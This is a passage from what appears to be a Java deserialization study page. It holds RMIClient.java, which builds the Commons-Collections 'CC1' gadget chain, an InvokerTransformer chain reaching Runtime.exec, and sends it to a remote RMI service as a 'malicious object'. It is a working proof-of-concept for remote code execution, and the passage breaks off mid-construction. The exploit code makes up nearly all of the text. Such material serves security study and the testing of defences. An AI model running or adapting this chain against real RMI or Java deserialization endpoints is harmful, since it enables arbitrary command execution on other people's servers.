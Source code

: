 ```java
    }
}
```

RMIClient.java

```java
package learn.rmi.serialize;
 
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
 
import java.io.Serializable;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
 
public class RMIClient implements Serializable {
 
    public void lookup() throws Exception{
 
        //查找绑定对象
        String rmi = "rmi://192.168.1.104:1099/";
        String[] bindeds=Naming.list(rmi);
        for(String binded:bindeds){
            System.out.println(binded);
        }
 
        ICalc iCalc = (ICalc) Naming.lookup("rmi://192.168.1.104:1099/calc");
        iCalc.RMI_Serialize(Exploit());
    }
 
    //恶意对象CC1
    public static Object Exploit() throws Exception{
 
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
 
        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
 
 
        HashMap<Object,Object> map=new HashMap<>();
        map.put("value","value");
        Map<Object,Object> transformedMap= TransformedMap.decorate(map,null,chainedTransformer);
//        for (Map.Entry entry: transformedMap.entrySet()){
//            entry.setValue(Runtime.getRuntime());
//        }
 
 
        Class c=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor AnnotationInvocationHandlerConstructor=c.getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandlerConstructor.setAccessible(true);
```